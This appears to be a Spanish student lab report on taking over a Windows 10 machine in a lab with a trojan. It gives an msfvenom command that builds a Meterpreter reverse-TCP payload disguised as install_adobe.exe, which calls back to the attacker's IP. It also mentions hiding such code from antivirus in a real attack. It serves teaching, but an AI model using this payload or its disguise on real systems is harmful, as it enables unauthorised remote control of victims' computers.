







# Hack Windows 10 usando TCP reverse

***Nombre:***
***Curso:*** 2º de Ciclo Superior de Administración de Sistemas Informáticos en Red.

### ÍNDICE

+ [Introducción](#id1)
+ [Objetivos](#id2)
+ [Material empleado](#id3)
+ [Desarrollo](#id4)
+ [Conclusiones](#id5)

#### ***Introducción***. 

Mediante ingenieria social, pueden engañarte para que aceptes ejecutar un virus en tu ordenador sin saber lo que realmente estas haciendo.

#### ***Objetivos***. 

El objetivo de la práctica tomaremos el control de nuestra victima mediante un troyano.

#### ***Material empleado***. 

Máquina atacante- Kali Linux
Máquina víctima-  Windows 10

#### ***Desarrollo***. 

Lo primero que haremos es asignar las ips tanto a nuestra máquina como a nuestra victima, y configurarlas en la misma red interna.

Una vez configuradas las ips vamos a ejecutar el exploit en nuestra terminal con el siguiente comando ***msfvenom -p windows/meterpreter/reverse_tcp --platform
windows -a x86 -f exe LHOST= ("aquí debemos poner nuestra ip") LPORT=444 -o
$HOME/install_adobe.exe***.

Este script nos generará un archivo en n uestro home.
Lo más dificil de este tipo de ataques es que debemos conseguir que la victima lo ejecute en su pc. Para este ejemplo simplemente copiaremos mediante usb el archivo de una máquina a otra.

Ejecutamos el archivo en la máquina víctima y volvemos a nuestra terminal de kali.
Vamos a activar nuestro exploit con la siguiente configuración.

Una vez configurado lo ejecutamos con el comando ***exploit***

¡Y listo! ya estamos dentro del ordenador de nuestra víctima y ella no lo sabe.

#### ***Conclusiones***. 

Este tipo de ataques son dificiles de implementar por el hecho de que debemos acceder a la red de nuestra víctima al tiempo que debemos conseguir que ejecute nuestro troyano. En este ejercicio de ejemplo, hemos desactivado el antivirus de nuestra víctima, pero en un ataque real tendriamos que camuflar muy bien el codigo malicioso para que el antivirus no lo detectase.
